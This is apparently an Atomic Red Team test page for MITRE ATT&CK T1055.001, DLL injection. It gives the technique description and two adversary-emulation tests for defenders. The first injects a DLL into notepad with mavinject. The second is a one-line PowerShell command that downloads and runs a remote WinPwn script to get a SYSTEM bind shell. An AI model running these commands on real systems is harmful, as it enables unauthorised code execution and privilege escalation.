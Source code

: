 ```yaml
---
tags: [T1055_001, atomic_test]
filename: "[[T1055.001|T1055.001 - Process Injection: Dynamic-link Library Injection]]"
---
```


# T1055.001 - Process Injection: Dynamic-link Library Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055/001)
<blockquote>Adversaries may inject dynamic-link libraries (DLLs) into processes in order to evade process-based defenses as well as possibly elevate privileges. DLL injection is a method of executing arbitrary code in the address space of a separate live process.  

DLL injection is commonly performed by writing the path to a DLL in the virtual address space of the target process before loading the DLL by invoking a new thread. The write can be performed with native Windows API calls such as <code>VirtualAllocEx</code> and <code>WriteProcessMemory</code>, then invoked with <code>CreateRemoteThread</code> (which calls the <code>LoadLibrary</code> API responsible for loading the DLL). (Citation: Elastic Process Injection July 2017) 

Variations of this method such as reflective DLL injection (writing a self-mapping DLL into a process) and memory module (map DLL when writing into process) overcome the address relocation issue as well as the additional APIs to invoke execution (since these methods load and execute the files in memory by manually preforming the function of <code>LoadLibrary</code>).(Citation: Elastic HuntingNMemory June 2017)(Citation: Elastic Process Injection July 2017) 

Another variation of this method, often referred to as Module Stomping/Overloading or DLL Hollowing, may be leveraged to conceal injected code within a process. This method involves loading a legitimate DLL into a remote process then manually overwriting the module's <code>AddressOfEntryPoint</code> before starting a new thread in the target process.(Citation: Module Stomping for Shellcode Injection) This variation allows attackers to hide malicious injected code by potentially backing its execution with a legitimate DLL file on disk.(Citation: Hiding Malicious Code with Module Stomping) 

Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via DLL injection may also evade detection from security products since the execution is masked under a legitimate process. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Process Injection via mavinject.exe](#atomic-test-1---process-injection-via-mavinjectexe)

- [Atomic Test #2 - WinPwn - Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique](#atomic-test-2---winpwn---get-system-shell---bind-system-shell-using-usoclient-dll-load-technique)


<br/>

## Atomic Test #1 - Process Injection via mavinject.exe
Windows 10 Utility To Inject DLLS.

Upon successful execution, powershell.exe will download T1055.dll to disk. Powershell will then spawn mavinject.exe to perform process injection in T1055.dll.
With default arguments, expect to see a MessageBox, with notepad's icon in taskbar.

**Supported Platforms:** Windows


**auto_generated_guid:** 74496461-11a1-4982-b439-4d87a550d254





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process_id | PID of input_arguments | string | (Start-Process notepad -PassThru).id|
| dll_payload | DLL to Inject | path | PathToAtomicsFolder&#92;T1055.001&#92;src&#92;x64&#92;T1055.001.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$mypid = #{process_id}
mavinject $mypid /INJECTRUNNING "#{dll_payload}"
Stop-Process -processname notepad
```




#### Dependencies:  Run with `powershell`!
##### Description: Utility to inject must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique
Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 8b56f787-73d9-4f1d-87e8-d07e89cbc7f5






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/UsoDLL/Get-UsoClientDLLSystem.ps1')
```






<br/>
